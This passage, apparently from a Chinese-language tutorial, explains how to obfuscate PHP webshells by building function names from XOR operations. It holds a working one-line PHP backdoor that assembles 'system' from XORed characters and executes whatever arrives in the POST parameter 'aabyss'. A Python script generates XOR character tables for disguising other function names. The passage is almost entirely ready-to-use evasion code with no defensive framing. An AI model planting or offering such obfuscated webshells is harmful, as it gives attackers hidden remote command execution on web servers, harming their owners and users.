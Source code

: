 主要通过各种嵌套、异或以及运算来拼装出来想要的函数，再利用PHP允许动态函数执行的特点，拼接处高危函数名，如 `system` ，然后动态执行恶意代码之即可

### 8.1 异或

`^` 为异或运算符，在PHP中两个变量进行异或时，会将字符串转换成二进制再进行异或运算，运算完再将结果从二进制转换成了字符串

```php
$f = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //system高危函数
$f = ('.$.48]' ^ ']]]@]0');   //等同于这样
$f($_POST['aabyss']);
```

这里的话，可以参考国光大佬的Python脚本生成异或结果，然后来替换即可：`python3 xxx.py > results.txt`

```python
import string
from urllib.parse import quote

keys = list(range(65)) + list(range(91,97)) + list(range(123,127))
results = []


for i in keys:
    for j in keys:
        asscii_number = i^j
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122):
            if i < 32 and j < 32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} =  {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i < 32 and j >=32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i >= 32 and j < 32:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            else:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)

results.sort(key=lambda x:x[1], reverse=False)

for low_case in string.ascii_lowercase:
    for result in results:
        if low_case in result:
            print(result[0])

for upper_case in string.ascii_uppercase:
    for result in results:
        if upper_case in result:
            print(result[0])
```
